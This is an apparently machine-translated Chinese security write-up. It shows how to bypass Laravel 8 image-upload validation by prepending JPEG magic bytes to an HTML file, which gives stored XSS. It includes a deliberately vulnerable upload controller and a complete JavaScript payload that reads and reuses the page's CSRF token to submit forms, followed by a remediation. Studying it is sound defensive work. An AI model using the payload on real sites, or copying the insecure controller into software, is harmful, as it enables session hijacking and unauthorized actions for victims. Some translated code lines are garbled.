# Laravel 8.x 图像上传旁路

> 原文：<https://infosecwriteups.com/laravel-8-x-image-upload-bypass-zero-day-852bd806019b?source=collection_archive---------0----------------------->



以上帝的名义。

嗨，研究者们，

在这篇文章中，我们将绕过 [laravel](https://laravel.com/) 图片上传，这是用 php 编写的最流行的 web 应用程序框架之一。

通过绕过 laravel 的图像验证，我们可以实现其他攻击，首先也是最受欢迎的是 xss，因为它是一个存储的 XSS，我们可以编写一个完整的漏洞，让我们绕过 CSRF，然后我们可以自由地以更高的权限做我们想做的任何事情，我在这篇文章中给你，我也研究了对这种攻击的补救措施，我也给你一个。

为了更好的解释，我们将一起建立我们的实验室。

# 我们开始吧

首先，我们应该创建新的 laravel 项目:

```
composer create-project --prefer-dist laravel/laravel blog
```

接下来我们应该在 **routes/web.php** 中创建路线:

```
<?php**use** Illuminate\Support\Facades\Route;**use** App\Http\Controllers\ImageUploadController;Route::**get**('image-upload', [ ImageUploadController::**class**, 'imageUpload' ])->name('image.upload');Route::post('image-upload', [ ImageUploadController::**class**, 'imageUploadPost' ])->name('image.upload.post');
```

在下一步中，我们应该创建一个控制器，控制器意味着将相关的请求处理逻辑分组到一个类中。

**app/Http/Controllers/imageuploadcontroller . PHP**

```
<?php**namespace** App\Http\Controllers;**use** Illuminate\Http\Request;**class** ImageUploadController **extends** Controller{/*** Display a listing of the resource.** @return \Illuminate\Http\Response*/**public** **function** imageUpload(){**return** view('imageUpload');}/*** Display a listing of the resource.** @return \Illuminate\Http\Response*/**public** **function** imageUploadPost(Request $request){$request->validate(['image' => 'required|image|mimes:jpeg,png,jpg,gif,svg|max:2048',]);$imageName = time().'.'.$request->image->getClientOriginalExtension();$request->image->move(public_path('images'), $imageName);/* Store $imageName name in DATABASE from HERE */**return** back()->**with**('success','You have successfully upload image.')->**with**('image',$imageName);}}
```

在最后一步中，我们需要为前端用户提供一个 imageUpload.blade.php 文件:

**resources/views/image upload . blade . PHP**

```
<!DOCTYPE html>
<html>
<head>
    <title>laravel 8 image upload vulnerability - Hosein Vita</title>
    <link rel="stylesheet" href="[https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css](https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css)">
</head>
<body>
<div class="container">
    <div class="panel panel-primary">
      <div class="panel-heading"><h2>laravel 8 image upload vulnerability - Hosein Vita</h2></div>
      <div class="panel-body">
        [@if](http://twitter.com/if) ($message = Session::get('success'))
        <div class="alert alert-success alert-block">
            <button type="button" class="close" data-dismiss="alert">×</button>
                <strong>{{ $message }}</strong>
        </div>
        
        [@endif](http://twitter.com/endif)
        [@if](http://twitter.com/if) (count($errors) > 0)
            <div class="alert alert-danger">
                <strong>Whoops!</strong> There were some problems with your input.
                <ul>
                    [@foreach](http://twitter.com/foreach) ($errors->all() as $error)
                        <li>{{ $error }}</li>
                    [@endforeach](http://twitter.com/endforeach)
                </ul>
            </div>
        [@endif](http://twitter.com/endif)
        <form action="{{ route('image.upload.post') }}" method="POST" enctype="multipart/form-data">
            [@csrf](http://twitter.com/csrf)
            <div class="row">
                <div class="col-md-6">
                    <input type="file" name="image" class="form-control">
                </div>
                <div class="col-md-6">
                    <button type="submit" class="btn btn-success">Upload</button>
                </div>
            </div>
        </form>
      </div>
    </div>
</div>
</body>
</html>
```

好了，现在我们完成了，我们可以简单地通过键入来启动它

**php 匠服**参见本页:



好了，现在我们可以开始在我们自己的实验室中测试了，请注意，在我们的**控制器**文件中，我们指定只允许使用 jpeg、png、jpg、gif、svg mimes 文件，所以我们从更改 mime 类型和添加第二个扩展名开始:



回应:



从字面上看，我们并不指望 laravel 会这么容易被绕过，但在测试这种方法的过程中，有些东西引起了我的注意，

我把合法图片的扩展名改成了**。html** 并上传成功！



回应:



这背后的逻辑告诉我们，web 应用程序关心我们文件的内容！所以我们需要做一些事情，让应用程序认为我们的文件是图像，但实际上不是，为此我建议你使用 [HxD](https://mh-nexus.de/en/hxd/) 。

现在用 HxD 打开您的 html 文件，并在文件的最开头添加这些字符 **FF D8 FF E0** :



工具:HxD

现在我们上传这个文件并测试它:



## 升级漏洞:

既然我们获得了 xss，我们需要一个漏洞来绕过 CSRF 令牌，

我们需要做的就是发送 AJAX 请求到一个在 html 主体页面中包含 CSRF 令牌的网页，提取令牌，并使用它来提交我们想要的任何表单:

```
ÿØÿà<html>
<head>
<title>Laravel Csrf Bypass</title>
</head>
<body>
<script>
function submitFormWithTokenJS(token) {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", POST_URL, true);// Send the proper header information along with the request
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");// This is for debugging and can be removed
    xhr.onreadystatechange = function() {
        if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            console.log(xhr.responseText);
        }
    }
 //
    xhr.send("_token=" + token + "&desiredParameter=desiredValue");
}function getTokenJS() {
    var xhr = new XMLHttpRequest();
    // This tels it to return it as a HTML document
    xhr.responseType = "document";
    // true on the end of here makes the call asynchronous
 //Edit the path as you want
    xhr.open("GET", "/image-upload", true);
    xhr.onload = function (e) {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            // Get the document from the response
            page = xhr.response
            // Get the input element
            input = page.getElementsByTagName("input")[0];
            // Show the token
            alert("The token is: " + input.value);
            // Use the token to submit the form
            submitFormWithTokenJS(input.value);
        }
    };
    // Make the request
    xhr.send(null);
}
getTokenJS();var POST_URL="/"
getTokenJS();</script>
</html>
```

**记住**根据你的需要改变值，比如 **POST_URL** 应该在哪里，以及你想要的 POST 参数。



# 补救

通过测试许多不同的 web 应用程序，我发现许多应用程序使用这种逻辑来处理文件上传，这段代码非常重要:



如果我们改变:

$imageName = time()。'.'。$ request-> image-> getClientOriginalExtension()；

收件人:

$imageName = time()。'.'。$ request-> image-> extension()；

laravel 将保存所有上传的文件。jpg 扩展名，现在我们再次测试我们的文件:



现在我们可以确保这个不会在受害者浏览器中呈现。

这是结束，感谢您阅读我的文章希望你学到了一些东西！❤

请随时在 Linkedin 或 Twitter 上联系我

领英:[https://www.linkedin.com/in/hosein-vita-9796ba225](https://www.linkedin.com/in/hosein-vita-9796ba225)

推特:【https://twitter.com/HoseinVita 